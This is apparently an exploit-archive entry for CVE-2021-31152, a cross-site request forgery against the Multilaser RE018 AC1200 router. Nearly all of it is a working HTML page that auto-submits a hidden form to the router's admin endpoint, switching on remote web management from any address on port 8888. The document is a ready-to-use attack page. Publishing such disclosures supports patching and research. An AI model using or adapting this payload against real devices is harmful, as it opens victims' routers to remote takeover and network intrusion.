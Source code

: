EXP
---

    # Exploit Title: Multilaser Router RE018 AC1200 - Cross-Site Request Forgery (Enable Remote Access)
    # Date: 14/04/2021
    # Exploit Author: Rodolfo Mariano
    # Version: Firmware V02.03.01.45_pt
    # CVE: CVE-2021-31152

    #Exploit code:
    <html>
        <body>
            <form action="http://192.168.0.1/goform/setSysTools" method="POST">
                <input name="module4" value="remoteWeb" type="hidden">
                <input name="remoteWebType" value="any" type="hidden">
                <input name="remoteWebIP" value="" type="hidden">
                <input name="remoteWebPort" value="8888" type="hidden">
                        <input type="submit" value="Submit request">
            </form>
        </body>
        <script>
            document.forms[0].submit();
        </script>
        </body>
    </html>
